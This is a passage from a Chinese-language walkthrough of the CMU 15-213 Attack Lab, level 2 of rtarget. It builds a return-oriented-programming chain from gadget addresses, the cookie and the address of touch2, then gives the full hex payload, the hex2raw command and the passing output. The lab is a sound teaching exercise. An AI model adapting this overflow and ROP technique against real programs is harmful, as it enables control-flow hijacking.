 分别对应：

1. 第 1 个 gadget 中指令的地址 `0x4019cc`
2. `cookie` 的值 `0x59b997fa`
3. 第 2 个 gadget 中指令的地址 `0x4019a2`

##### 4.4.2 第 2 ~ 3 句指令

```asm
push   $0x4017ec
ret
```

这次就不需要压栈了，直接将函数 `touch2` 的地址保存在栈中即可，上一条指令结尾的 `ret` 指令将使函数返回到目标函数 `touch2`。

在栈中需要保存的内容为：

```text
ec 17 40 00 00 00 00 00             /* the address of touch2        */
```

表示函数 `touch2` 的地址 `0x4017ec`。

##### 4.4.3 ATTACK

构造用于注入的字符串：

1. 输入任意 40 个字符填满缓冲区；
2. 输入由以上分析可知在栈中需要保存的内容。

编辑输入文件 `exploit.txt`：

```text
c2 a9 20 32 30 31 39 20
43 6f 70 79 72 69 67 68
74 20 48 61 6b 75 6c 61
2c 20 43 43 20 42 59 2d
4e 43 2d 53 41 20 00 00             /* 40 bytes of trash            */
cc 19 40 00 00 00 00 00             /* popq   %rax                  */
fa 97 b9 59 00 00 00 00             /* the value of cookie          */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
ec 17 40 00 00 00 00 00             /* the address of touch2        */
```

在 `rtarget` 程序中输入该字符串：

```bash
cat exploit.txt | ./hex2raw | ./rtarget -q
```

输出信息：

```text
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:C2 A9 20 32 30 31 39 20 43 6F 70 79 72 69 67 68 74 20 48 61 6B 75 6C 61 2C 20 43 43 20 42 59 2D 4E 43 2D 53 41 20 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
